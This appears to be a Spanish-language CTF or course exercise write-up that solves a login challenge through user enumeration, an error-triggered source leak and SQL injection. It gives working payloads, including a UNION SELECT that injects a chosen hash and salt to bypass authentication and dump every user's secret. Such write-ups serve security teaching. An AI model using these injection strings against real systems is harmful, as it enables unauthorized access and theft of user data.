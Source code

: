 
# Ejercicio 1

Luego de ingresar a la plataforma "Gringotts", solo vemos un formulario para hacer login.

Empezamos probando las cosas simples para obtener algo de informacion:

- Intentar logearse con el usuario `admin`, password `admin`. Esto nos muestra un mensaje:
> No existe el usuario admin!

Genial, podemos saber si existe o no un usuario determinado al parecer

- Intentar logearse con `bob`, password `bob`. Esto nos muestra un mensaje:
> Password incorrecta para bob!

Genial, podemos saber saber si ingresamos bien el usuario, pero mal la password

Ahora bien, con esto en mente, probemos algo de SQL injection

- Intentar logearse con usuario `' OR '1' = '1`, password `' OR '1' = '1`. La idea de esta injection es intentar romper una consulta como `SELECT * FROM users WHERE username = '{username}' AND password = '{password}'`
> Password incorrecta para ' OR '1' = '1!

Ok, entonces el usuario ese existe? No creo. La consulta no debe ser como imaginamos. Ahora bien, intentemos romper la consulta SQL, para ver si tenemos algun stack trace

- Intentar logearse con usuario `' OR --`, password `asd`. Deberia dar error, ya que no hay nada despues de la keyword `OR`.

Bingo, tenemos el stack trace, y no solo eso, tenemos el codigo fuente del archivo `login`

Algunas lineas utiles de ese archivo:

    query = """SELECT id, password_hash, salt FROM users
	           WHERE username = '%s' LIMIT 1""" % username
    cursor.execute(query)
    res = cursor.fetchone()

    if not res:
      flash("No existe el usuario %s!" % username)
      return redirect(url_for('index'))
    
    user_id, password_hash, salt = res
    calculated_hash = hashlib.sha256( salt + password + salt) # <-.->
    if calculated_hash.hexdigest() != password_hash:
      flash("Password incorrecta para %s!" % username)
      return redirect(url_for('index'))
    
    session['user_id'] = user_id


Tenemos la query de SQL, vemos que solo podremos extraer una sola fila de la consulta

Si no hay fila, se devuelve que no hay un usuario con ese nombre

Si hay fila, tomamos la salt, la prependeamos y apendeamos a la password, tiramos sha256 de eso y nos fijamos si nos da igual que el hash de la database

En ese caso, se setea el `user_id` en la session, el cual se usa en esta parte

    @app.route('/')
    def index():
      """Main page."""
      try:
        user_id = session['user_id']
      except KeyError:
        secret = None
      else:
        secret = secrets[str(user_id)]
      return render_template('index.html', secret=secret)

Entonces, necesitamos el `user_id` del usuario al cual queremos acceder, para podes printear el `secret`

En este momento me puse a hacer bastantes cosas que no me llevaron a nada concreto, pero me sirvieron para resolver los puntos siguientes del ejercicio

Podemos injectar la query `' OR id >= X` para averiguar cual es el id mas grande en la database. Por esto codie en python un script que use binary search para obtener el valor de ese id mas grande

Una vez sacado ese valor (525), podemos probar la query `' OR id = X` para ver que ids realmente tienen usuarios, los cuales son `[1, 2, 3, 4, 5, 525]`

Y ahora si, despues de pensar un rato como romper la parte del hashing, se me ocurrio la idea de no romperlo justamente, sino de hacer que de True.

Basicamente la idea es injectar mi propio `salt` y mi propio `password_hash`, para que me de True cuando haga la llamada

Para esto hice uso de la keyword `UNION` con la consulta:
`' UNION SELECT id, {hash_propio}, {salt_propia} FROM users WHERE username = X --`

Como la primera parte de la consulta nos devolvera `[]`, pues no hay un user con usuario vacio, simplemente obtendremos lo que dice la segunda parte de la consulta.
Ahora esta todo listo, solo hay que dar los datos
Por comodidad elegi `salt = 1`, `hash = pepe`, usando `hashlib.sha256(salt+pass+salt).hexdigest()` obtuve `4784bdfeb97508c05b914989c97eaeb8ff5bfc92627fea24bd49cfe99d4f7bd5`

Finalmente, me intente logear con usuario
usuario: `' UNION SELECT id, '4784bdfeb97508c05b914989c97eaeb8ff5bfc92627fea24bd49cfe99d4f7bd5', '1' FROM users WHERE username = 'bob' --`
password: `pepe`

Result: `Your secret is: Gate's Gm@Il Passw0rd R3m1nder: Ennyn Durin Aran Moria. Pedo Mellon a Minno. Im Narvi hain echant. Celebrimbor o Eregion teithant i thiw hin.`

Googleando rapido encontre que es una frase de un libro de Tolkien. La password de acceso al sector 7-G es probablemente `friend`

Obviamente podemos cambiar la query facilmente para recuperar los secretos de todos los usuarios de este sistema, sounds like FUN

- id 1 does not have secrets
- id 2 is bob
- id 3 `Coca-cola recipes: Carbonated water, sugar, natural flavorings, caffeine, phosphoric acid & naranpol flavor`
- id 4 `se-html5-album-audio-player is broken`
- id 5 `Kaley Cuoco phone: 1-212-733-2323`
- id 6 `The BUE System is unsafe or at least doubtful`

=)

